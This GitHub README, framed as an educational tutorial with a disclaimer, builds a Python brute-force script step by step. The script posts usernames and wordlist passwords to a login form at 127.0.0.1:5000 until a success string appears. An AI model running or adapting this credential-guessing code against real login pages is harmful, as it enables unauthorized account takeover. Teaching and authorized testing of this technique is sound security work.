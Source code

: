 # Web-Login-Form-Brute-Forcing

## Disclaimer

_This script demonstrates a basic brute-force technique intended for educational purposes and authorized penetration testing only._ 

_**Unauthorized use of this script is illegal and unethical**._ 

_By using this script, you agree to the following:_

_- You have explicit permission to test the system in question._

_- You will not use this script against any system that you do not own or manage._

_- You understand the legal implications of unauthorized access and agree to take full responsibility for your actions._

_Always prioritize ethical practices in cybersecurity. If you're unsure about the legality of your actions, please consult with a legal professional._

<br>

### Note:
_A web application you are authorised to test is required to test this script._

<br>

## Screenshots:

![Screenshot 2024-11-04 134617](https://github.com/user-attachments/assets/80a9b5cb-b11e-4fea-a3ec-cee6aea14fe7)

<br>

## Steps on how to perform Password Brute Forcing on a Login Page is as follows:

#### Step 1: Import required libraries
    import requests
    import sys

<br>

#### Step 2: Set up target URL and parameters
    target = "http://127.0.0.1:5000"
    usernames = ["admin", "user", "test"]
    passwords = "top-1oo-list.txt"
    needle = "Welcome Back"

<br>

#### Step 3: Create a loop to iterate through usernames
    for username in usernames:

<br>

#### Step 4: Open and read the password file
    with open(passwords, "r") as passwords_list:

<br>

#### Step 5: Create a nested loop to iterate through passwords    
    for password in passwords_list:
          password = password.strip("\n").encode()

<br>

#### Step 6: Display current attempt
    sys.stdout.write("[X] Attempting user:password -> {}:{}\r".format(username, password.decode()))
                sys.stdout.flush()
<br>

#### Step 7: Send POST request to the target URL
    r = requests.post(target, data={"username": username, "password": password})

<br>

#### Step 8: Check if login was successful
    if needle.encode() in r.content:
                    sys.stdout.write("\n")
                    sys.stdout.write("\t[>>>>>>] Valid Password '{}' found for user '{}'!".format(password.decode(), username))
                    sys.exit()
<br>

#### Step 9: Handle case when no password is found:
    sys.stdout.flush()
            sys.stdout.write("\n")
            sys.stdout.write("\tNo Password Found for '{}'!".format(username))
            sys.stdout.write("\n")
<br>
<hr>
